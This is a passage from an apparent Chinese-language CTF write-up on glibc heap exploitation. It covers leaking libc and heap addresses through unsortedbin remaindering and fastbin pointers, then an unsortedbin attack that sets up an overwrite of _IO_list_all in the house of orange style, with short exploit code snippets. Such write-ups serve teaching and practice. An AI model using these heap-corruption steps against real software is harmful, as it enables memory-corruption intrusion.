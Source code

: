 可以看到再次申请的 chunk 还是在 B 的位置

![](https://static.hack1s.fun/images/2021/11/15/image-20211115184923962.png)

原本大小为 0xc0 的 unsortedbin 发生了 remaindering，切分为了两部分

其中 0x60 分配给我们这次的申请，另外的 0x60 又重新被放到了 unsortedbin 中，也就是我们原本 C 的位置

看到发生了 remaindering 之后，`main_arena.last_remainder`中的值变成了切分下来的这个部分；

那么接下来直接读 C 的内容就可以得到图中`0x7fffd7dd4b78`这个指针了

这个值减去 88 就是 main_arena 的地址，由此得到了一个 libc 的地址

```
offset = lib.sym.main_arena + 88

data = u64(read(chunk_C)[:8])

libc.address = data - offset

```

### 泄漏堆地址

现在我们有了一个泄漏的 libc 地址，就可以利用 house_of_orange 中的技巧，用 unsortedbin attack 尝试覆盖`_IO_list_all`的 vtable 了

这样我们需要在堆上伪造一个`_IO_FILE`出来，但是要确定 vtable 的值还需要泄漏一个堆上的地址

那么我们就可以利用目前 chunk_C 这里的双重指针，构造出一个 fastbin 的 fd

```
chunk_C2 = malloc()
free(chunk_A)
free(chunk_C2)

```

这样 chunk_C 的前 8 个字节就变成了一个 fastbin 的 fd，指向的是 chunk_A 的位置即堆的起始地址

![](https://static.hack1s.fun/images/2021/11/16/image-20211116133127445.png)

```
heap = u64(read(chunk_C)[:8])
log.info(f"heap @ {heap:02x}")

```

### unsortedbin attack

接下来就是利用 unsortedbin attack 完成之前 house of orange 中的最后一步

修改`_IO_list_all`

这里要完成 unsortedbin attack 我们其实可以在获取 libc 地址和获取堆地址之间完成

```
chunk_A = malloc()
chunk_B = malloc()
chunk_C = malloc()
chunk_D = malloc()

edit(chunk_A,b'Y'*0x58 + b'\xc1')
free(chunk_B)

offset = lib.sym.main_arena + 88
data = u64(read(chunk_C)[:8])
libc.address = data - offset
log.info(f"libc @ {libc:02x}")

edit(chunk_C, p64(0) + p64(libc.sym._IO_list_all - 0x10))
```